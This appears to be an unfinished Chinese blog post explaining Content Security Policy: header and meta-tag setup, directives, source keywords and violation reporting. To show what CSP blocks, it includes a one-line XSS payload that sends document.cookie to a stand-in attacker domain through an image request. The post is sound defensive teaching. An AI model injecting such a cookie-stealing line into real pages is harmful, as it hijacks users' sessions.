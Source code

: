 ```yaml
---
title: CSP 浏览器内存安全策略
categories: security
toc: true
---
```


## 什么是CSP?  ##

这里一段定义是来自于MDN社区
> Content Security Policy (CSP) is an added layer of security that helps to detect and mitigate certain types of attacks, including Cross Site Scripting (XSS) and data injection attacks. These attacks are used for everything from data theft to site defacement or distribution of malware.

内容安全策略(CSP)是一种web应用技术用于帮助缓解大部分类型的内容注入攻击，包括XSS攻击和数据注入等，这些攻击可实现数据窃取、网站破坏和作为恶意软件分发版本等行为。该策略可让网站管理员指定客户端允许加载的各类可信任资源。

参考来源

https://developer.mozilla.org/en-US/docs/Web/HTTP/CSP

## 使用CSP的两种方式

 - 通过服务器 HTTP 头部的 Content-Security-Policy 来指定
 - 通过 HTML 文档的 meta 标签配置策略

 例如：

 使用 HTTP 头部，这里的 policy 为策略字符串

 ```
 Content-Security-Policy: policy
 ```

使用 HTML meta 标签的方式

 ```HTML
<meta http-equiv="Content-Security-Policy" content="default-src 'self'; img-src https://*; child-src 'none';">
 ```

 ## 主要防范目标

 CSP主要是防范 XSS 攻击，以及报告 XSS 攻击，如果页面存在漏洞让 JS 脚本注入，CSP 能限制脚本的运行，然后把损失降到最小

 

 ``` Javascript
 (new Image()).src = "http://www.evil-domain.com/steal-cookie.php?cookie=" + document.cookie;

 ```

 CSP 是通过限制加载到页面上的资源、域或者协议来实现的，例如，一旦入侵者找到漏洞注入了XSS攻击，入侵者可以通过 图片Ping的方式发送敏感信息到外部网站。CSP 可以指定允许信任域名下的图片、Script和样式表被加载到页面上，及时入侵者 XSS 入侵成功也无法通过这些方式发送数据，保证网站一定程度上安全。

 TODO 几个例子限制加载的资源


另外 CSP 也提供了只允许加载指定协议，例如HTTPS的资源，否则自动跳转到 HTTPS 版本。


## 使用 CSP 


当我们需要使用CSP生效就需要编写相应的策略，策略包括一系列指令组成和设置定的值组成。

例如，一个网站管理者允许内容来自信任的域名及其子域名 

```
Content-Security-Policy: default-src 'self' *.trusted.com

```

我们再看一条策略：

```
Content-Security-Policy: default-src 'self'; img-src *; media-src media1.com media2.com; script-src userscripts.example.com

```

这条策略有4个指令 img-src 为图片资源，media-src 为视频媒体资源，script-src 为脚本资源。最重要的一个是 default-src 为所有的资源默认属性，这里设置为了 ‘self’ 的含义为所有的资源再不指定的情况下只能从自身域下加载。

TODO 描述 行内脚本


## 资源

<host-source>
<scheme-source>
	self
	unsafe-inline
	unsafe-eva
	none
	nonce-<base64值>
	strict-dynamic



### 

 TODO 讲解这几种模式

## 报告违规情况

CSP 提供了另外一个非常有用的模式 - 报告模式，如果在 HTTP 头部指定 Content-Security-Policy-Report-Only 可以将发生了任何违规的事件都会被报告出去，但是这个头部只会对报告生效，实际生效还是需要 在Content-Security-Policy 中指定。

在报告的策略中需要配置一个 report-uri 用于服务器接受违规报告情况，例如：


```

Content-Security-Policy: default-src 'self'; report-uri http://reportcollector.example.com/collector.cgi


```

浏览器会向 report-uri 中指定的地址使用 POST 发送一个 JSON 格式的数据包。


数据包格式如下：

``` JSON

{
  "csp-report": {
    "document-uri": "http://example.com/signup.html",
    "referrer": "",
    "blocked-uri": "http://example.com/css/style.css",
    "violated-directive": "style-src cdn.example.com",
    "original-policy": "default-src 'none'; style-src cdn.example.com; report-uri /_/csp-reports"
  }
}

```




